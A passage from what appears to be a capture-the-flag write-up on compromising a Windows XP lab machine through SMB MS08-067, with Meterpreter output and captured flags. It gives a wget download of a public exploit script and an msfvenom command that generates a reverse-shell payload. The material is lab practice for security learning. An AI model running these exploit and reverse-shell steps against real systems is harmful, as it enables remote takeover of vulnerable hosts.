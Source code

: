 Check the current username :

```text
(Meterpreter 1)(C:\WINDOWS\system32) > getuid
Server username: NT AUTHORITY\SYSTEM
```

This is the system account, the target is fully compromised.

Get the flags from this SYSTEM account :

```text
(Meterpreter 1)(C:\WINDOWS\system32) > cat "c:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f
(Meterpreter 1)(C:\WINDOWS\system32) > cat "c:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713
```

### SMB - ms08-067 (CVE-2008-4250) - Without MetaSploit

[EDB-7132](https://www.exploit-db.com/exploits/7132)

The exploit is a python2 script. it takes 2 parameters :

- target
- OS version

The OS version is Windows 2000, or Windows 2003, and does not match the target OS version (Windows XP).

By searching on Google `MS08-067 windows XP site:github.com`, there is an interesting script that can match :

[MS08_067 Python Exploit Script - Updated 2018](https://github.com/andyacer/ms08_067)

This exploit is a python2 script similar to the previous one. It takes 3 parameters :

- target
- OS version
- port

```python
target = sys.argv[1]
os = sys.argv[2]
port = sys.argv[3]
```

Download this script:

```bash
wget https://github.com/andyacer/ms08_067/raw/master/ms08_067_2018.py -O ms08_067_2018.py
```

It support Windows XP SP3 and require a payload in this script, in variable `shellcode`.

The command line is provided in order to generate the payload :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=${TARGET_IP} LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows -v shellcode
```
